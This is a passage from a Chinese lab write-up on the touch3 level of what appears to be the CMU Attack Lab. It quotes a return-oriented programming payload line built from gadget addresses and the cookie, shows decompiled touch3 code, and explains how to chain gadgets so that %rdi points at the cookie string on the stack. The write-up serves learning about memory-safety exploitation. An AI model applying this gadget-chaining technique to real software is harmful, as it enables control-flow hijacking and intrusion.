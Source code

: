 

这个其实在这里也能找到，就是找起来有点费眼睛

![1618667300251](96.png)



看到师傅是这么写的脚本

```
‘a'*0x28 + p64(0x4019b9) + p64(cookie) + p64(0x4019EF) + p64(0x4017c0)
```



## touch3

ida打开

```
void __fastcall __noreturn touch3(char *sval)
{
  vlevel = 3;
  if ( hexmatch(cookie, sval) )
  {
    __printf_chk(1LL, "Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  }
  else
  {
    __printf_chk(1LL, "Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```

还是和上面一样，



将寄存器rdi的值设置为cookie字符串的指针即存储cookie字符串的地址。

在上面找到的满足条件的gadget中可以凑出能够实现攻击的指令。

先把%rsp存储的栈顶指针值复制给%rdi， 再将%eax的值设置为cookie字符串地址在栈中的偏移量并复

制给%esi，最后将二者相加即为cookie字符串的存储地址。
